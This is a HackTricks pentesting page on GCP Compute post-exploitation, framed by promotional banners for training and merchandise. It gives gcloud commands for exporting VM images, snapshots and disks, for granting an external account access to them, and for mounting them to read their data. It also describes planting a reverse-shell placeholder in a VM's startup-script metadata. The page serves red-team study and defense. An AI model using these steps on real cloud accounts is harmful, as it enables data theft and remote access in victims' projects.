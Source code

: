 # GCP - Compute Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

For more information about Compute and VPC (Networking) check:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

This would allow an attacker to **access the data contained inside already existing images** or **create new images of running VMs** and access their data without having access to the running VM.

It's possible to export a VM image to a bucket and then download it and mount it locally with the command:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Fore performing this action the attacker might need privileges over the storage bucket and for sure **privileges over cloudbuild** as it's the **service** which is going to be asked to perform the export\
Moreover, for this to work the codebuild SA and the compute SA needs privileged permissions.\
The cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` needs:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

And the SA `<project-id>-compute@developer.gserviceaccount.com` needs:

* oles/compute.storageAdmin
* roles/storage.objectAdmin

### Export & Inspect Snapshots & Disks locally

It's not possible to directly export snapshots and disks, but it's possible to **transform a snapshot in a disk, a disk in an image** and following the **previous section**, export that image to inspect it locally

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspect an Image creating a VM

With the goal of accessing the **data stored in an image** or inside a **running VM** from where an attacker **has created an image,** it possible to grant an external account access over the image:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
  --member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
  --role='roles/compute.imageUser'
```

and then create a new VM from it:

```bash
gcloud compute instances create [INSTANCE_NAME] \
  --project=[TARGET_PROJECT_ID] \
  --zone=[ZONE] \
  --image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

If you could not give your external account access over image, you could launch a VM using that image in the victims project and **make the metadata execute a reverse shell** to access the image adding the param:

```bash
    --metadata startup-script='#! /bin/bash
        echo "hello"; <reverse shell>'
```

### Inspect a Snapshot/Disk attaching it to a VM

With the goal of accessing the **data stored in a disk or a snapshot, you could transform the snapshot into a disk, a disk into an image and follow th preivous steps.**

Or you could **grant an external account access** over the disk (if the starting point is a snapshot give access over the snapshot or create a disk from it):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
  --member='user:[USER_EMAIL]' \
  --role='roles/compute.storageAdmin'
```

**Attach the disk** to an instance:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
  --disk [DISK_NAME] \
  --zone [ZONE]
```

Mount the disk inside the VM:

1.  **SSH into the VM**:

    ```sh
    gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
    ```
2. **Identify the Disk**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3. **Format and Mount the Disk** (if it's a new or raw disk):
   *   Create a mount point:

       ```sh
       sudo mkdir -p /mnt/disks/[MOUNT_DIR]
       ```
   *   Mount the disk:

       ```sh
       sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
       ```

If you **cannot give access to a external project** to the snapshot or disk, you might need to p**erform these actions inside an instance in the same project as the snapshot/disk**.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
